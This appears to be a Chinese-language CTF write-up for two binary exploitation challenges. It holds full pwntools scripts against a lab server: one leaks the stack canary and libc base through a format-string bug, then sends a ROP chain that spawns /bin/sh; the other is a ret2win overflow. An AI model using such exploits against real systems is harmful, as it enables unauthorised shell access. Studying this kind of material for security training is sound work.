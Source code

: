 
#### Recon
這一題的環境很搞，我覺得以只有上過社團的新手來說應該很難，畢竟都是基本功，但說實話，用到format bug string的實用度真的不高
1. 從source code中可以發現簡單的format bug和bof的問題，所以大膽猜測先leak stack info，然後拿到libc base
2. 接著用到後面的gets達到bof + rop，然後他有開canary，所以記得canary也要放對

#### Exploit - FBS + ret2libc + BoF + ROP
:::success
到這邊應該很簡單，local也是一下子就過了，但不知道為甚麼，我發現題目給的libc.so.6和server端的不一樣，一直debug都沒有甚麼好結果，後來還是乾脆開docker在local端跑一下環境，結果竟然發現ROP的gadget真的對不到，應該說只有`pop rdx ; pop rbx ; ret`這個gadget發生問題，所以我也是直接copy出docker的libc才過的，真的是傻眼...
:::
```python
from pwn import *

# r = process('./ret2libc', env={"LD_PRELOAD" : "./libc.so.6"})
r = remote('172.31.210.1', 50002)

print(r.recvline())
payload = b'%p' * 14 + b'^'
r.sendline(payload)
stack_info = r.recvuntil(b'^')[:-1].replace(b'(nil)', b'0xdeadbeef').split(b'0x')
canary = int(stack_info[-4], 16)


libc_main = int(stack_info[-2], 16)
libc_base = libc_main - 0x24083# 0x29d90

log.info(f'{stack_info}')
log.info(f'{hex(libc_main)}')
log.info(f'{hex(libc_base)}')
log.info(f'{hex(canary)}')

pop_rax_ret = libc_base + 0x0000000000036174# 0x0000000000045eb0# : pop rax ; ret
pop_rdi_ret = libc_base + 0x0000000000023b6a# 0x000000000002a3e5# : pop rdi ; ret
pop_rsi_ret = libc_base + 0x000000000002601f# 0x000000000002be51# : pop rsi ; ret
pop_rdx_rbx_ret = libc_base + 0x0000000000015fae6# 0x00000000000904a9# : pop rdx ; pop rbx ; ret
bin_sh = libc_base + 0x00000000001b45bd# 0x00000000001d8678# : /bin/sh
syscall_ret = libc_base + 0x000000000002284d# 0x0000000000091316# : 


r.sendline(b'a' * 0x28 + p64(canary) + p64(1) + p64(pop_rax_ret) + p64(0x3b) + p64(pop_rdi_ret) + p64(bin_sh) + p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_rbx_ret) + p64(0) + p64(0) + p64(syscall_ret))

r.interactive()
```

### ret2win

#### Exploit - 就是簡單到不能再簡單的ret2win
```python
from pwn import *

r = remote('172.31.210.1', 50001)
# r = process('./ret2win')

r.recvline()

fn_win_addr = 0x000000000401196
r.sendline(b'a' * 0x28 + p64(fn_win_addr))
r.interactive()
```
